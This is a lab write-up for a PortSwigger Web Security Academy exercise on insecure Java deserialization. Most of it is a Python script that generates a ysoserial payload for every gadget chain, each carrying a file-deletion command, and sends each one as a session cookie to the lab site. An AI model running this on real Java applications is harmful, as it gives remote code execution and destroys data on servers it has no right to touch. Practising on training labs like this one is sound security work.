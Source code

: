 [Insecure deserialization](../Insecure%20deserialization.md)
# Description

This lab uses a serialization-based session mechanism and loads the Apache Commons Collections library. Although you don't have source code access, you can still exploit this lab using pre-built gadget chains.

To solve the lab, use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution

Download `ysoserial`
try to create payloads, examine errors, change java version to 11

```sh
sudo apt install openjdk-11-jdk
```

```sh
sudo update-java-alternatives --set java-1.11.0-openjdk-amd64
```

and i wrote script to check every possible payload, 
also pay attention to that you need to **url encode** payload(base64)

```python
import requests
import os
from requests.cookies import CookieConflictError
from tqdm import tqdm
import base64
from urllib import parse

def send_request(payload):
    cookies = {
        'session': parse.quote(open('./payload.txt', 'r').read().strip())
    }
    print('#'*19)
    print(cookies)
    if open('./payload.txt', "r").read():
        res = requests.get('https://0a3b00980379c43d85d7909a00f60012.web-security-academy.net', cookies=cookies)

        print(res.status_code, res.text)


def gen_payloads():
    payload_names = [
        "AspectJWeaver",
        "BeanShell1",
        "C3P0",
        "Click1",
        "Clojure",
        "CommonsBeanutils1",
        "CommonsCollections1",
        "CommonsCollections2",
        "CommonsCollections3",
        "CommonsCollections4",
        "CommonsCollections5",
        "CommonsCollections6",
        "CommonsCollections7",
        "FileUpload1",
        "Groovy1",
        "Hibernate1",
        "Hibernate2",
        "JBossInterceptors1",
        "JRMPClient",
        "JRMPListener",
        "JSON1",
        "JavassistWeld1",
        "Jdk7u21",
        "Jython1",
        "MozillaRhino1",
        "MozillaRhino2",
        "Myfaces1",
        "Myfaces2",
        "ROME",
        "Spring1",
        "Spring2",
        "URLDNS",
        "Vaadin1",
        "Wicket1"
    ]
    for payload in tqdm(payload_names):
        # p = pwn.process(['java', '-jar', 'ysoserial-all.jar', payload, 'rm /home/carlos/morale.txt', '| base64'])
        try:
            p = os.system(f"java -jar ysoserial-all.jar {payload} 'rm /home/carlos/morale.txt' | base64 -w 0 > payload.txt")
        except:
            continue

        send_request(p)


if __name__ == "__main__":
    gen_payloads()
```


